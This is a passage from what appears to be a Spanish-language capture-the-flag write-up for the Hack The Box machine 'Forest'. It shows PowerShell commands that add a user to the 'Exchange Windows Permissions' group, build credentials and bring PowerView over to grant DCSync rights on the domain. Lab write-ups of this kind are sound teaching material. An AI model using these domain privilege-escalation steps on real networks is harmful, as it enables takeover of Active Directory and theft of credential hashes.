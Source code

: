 ![list](/assets/img/forest/Kali-2022-09-14-00-27-59.png){:.lead width="800" height="100" loading="lazy"}


```powershell
net group "Exchange Windows Permissions" axel123 /add
```

Seteamos el privilegio DCsync.


![list](/assets/img/forest/Kali-2022-09-14-00-48-15.png){:.lead width="800" height="100" loading="lazy"}


```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```


Definimos las credenciales.


```powershell
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\axel123', $SecPassword)
```


Descargamos el binario de PowerView-ps1 y lo traemos a la maquina victima el cual ejecuta la funcion para asignar el privilegio y estas credenciales al dominio.


